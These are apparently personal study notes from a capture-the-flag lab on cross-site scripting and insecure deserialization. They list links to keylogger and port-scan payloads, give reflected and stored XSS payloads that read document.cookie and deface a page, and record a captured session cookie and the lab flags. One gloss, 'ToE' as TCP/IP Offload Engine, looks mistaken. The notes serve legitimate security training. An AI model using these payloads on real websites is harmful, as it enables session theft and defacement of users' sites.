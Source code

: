 - keylogger  ` http://www.xss-payloads.com/payloads/scripts/simplekeylogger.js.html `
- port scanning  ` http://www.xss-payloads.com/payloads/scripts/portscanapi.js.html `

---
`http://x.x.x.x`  

Reflected XSS

- enter a `<script>` into the search box  `<script>alert(“Hello”)</script`
- inspect source code but popup shows answer 
- ` ThereIsMoreToXSSThanYouThink `

reflected IP address
```
<script> alert(window.location.hostname)</script>
```

- ` ReflectiveXss4TheWin `

Stored XSS 

- register make a fake account > stored XSS

Then add a comment and see if you can insert some of your own HTML.
- hi
- `<h2> robots rule <h2>`
- ` HTML_T4gs `

On the same page, create an alert popup box appear on the page with your document cookies.
- `<script> alert(document.cookie) </script> `

```
connect.sid=s%3ANSZkyAZ-IckeM-XnzTIiLf7ceJKCaNmC.kazEeeBFYrhtFqDNJRzHuBW6Tc3m6ZSJp6qrUDYN69s
```

- look in the source code to see flag
- ` W3LL_D0N3_LVL2 `

  
Change "XSS Playground" to "I am a hacker" by adding a comment and using Javascript.

- ` <script>document.querySelector('#thm-title').textContent = 'I am a hacker'</script> `
-  ` websites_can_be_easily_defaced_with_xss `

for extra fun 
` <script>document.querySelector('h1').textContent = 'h4cked'</script> `



## Insecure Deserialization

insecure deserialization is replacing data processed by an application with malicious code
- low exploitability, no tools / framework for it
- ToE = TCP/IP Offload Engine, tech used in network interface cards
- exploit relies on attacker's skills

vulnerable when app that stores data or grabs data with no validation
- E-commerce sites
- forums
- APIs
- app runtimes (Tomcat, Jenkins, Jboss, etc)

---